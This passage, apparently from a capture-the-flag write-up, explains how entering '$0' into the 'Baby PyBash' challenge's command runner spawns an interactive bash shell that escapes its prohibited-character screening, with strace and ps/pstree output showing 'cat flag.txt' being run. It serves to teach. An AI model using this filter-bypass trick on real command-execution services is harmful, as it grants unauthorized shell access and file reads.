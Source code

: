 ```python
print("Welcome to Baby PyBash!\n")
cmd = input("Enter a bash command: ") # READ INPUT FOR SCREENING AGAINST PROHIBITED CHARACTERS
output = execute_command(cmd) # calls subprocess.run(), see earlier snippet of execute_command() above

# this is where our main python process will wait indefinitely
# meaning this line below is never reached
print(output)
```

See the `strace` output for when the exploit is run to provide further clarificiation.

```
463843 execve("/usr/bin/python3", ["python3", "-u", "chall.py"], 0x7fff85204440 /* 53 vars */) = 0 <====== RUNNNG Python parent process

463907 execve("/bin/bash", ["/bin/bash", "-c", "$0"], 0x7fffba6848d8 /* 53 vars */) = 0 <====== Python parent process waits, user inputs /bin/bash to bash

463908 execve("/bin/bash", ["/bin/bash"], 0x63d4f08b3e98 /* 53 vars */) = 0 <========== This is the child bash process to the parent bash process above

463938 execve("/usr/bin/ls", ["ls"], 0x6457241080d8 /* 53 vars */) = 0 <======== This child bash process will continue accepting input while Python parent still waiting


463938 +++ exited with 0 +++

463978 execve("/usr/bin/cat", ["cat", "flag.txt"], 0x645724108468 /* 53 vars */) = 0
463978 +++ exited with 0 +++

****** NOTICE bash NEVER calls exit() *******
```

The `ps` tool (a terminal version of say Windows Task Manager) and `pstree` can give us a nice visually process tree too.

```
ccrollin@thinkpad-p43s ~/D/c/2/cyberspace> ps -a
    PID TTY          TIME CMD
   2734 tty2     00:00:00 fish
   2743 tty2     00:00:00 gnome-session-b
 472460 pts/3    00:00:00 python3
 472515 pts/3    00:00:00 bash
 472516 pts/3    00:00:00 bash
 473474 pts/4    00:00:00 ps

ccrollin@thinkpad-p43s ~/D/c/2/cyberspace> pstree -p 472460 # start process tree at root python process with process ID (PID) 472460

python3(472460)───bash(472515)───bash(472516)

ccrollin@thinkpad-p43s ~/D/c/2/cyberspace> 
```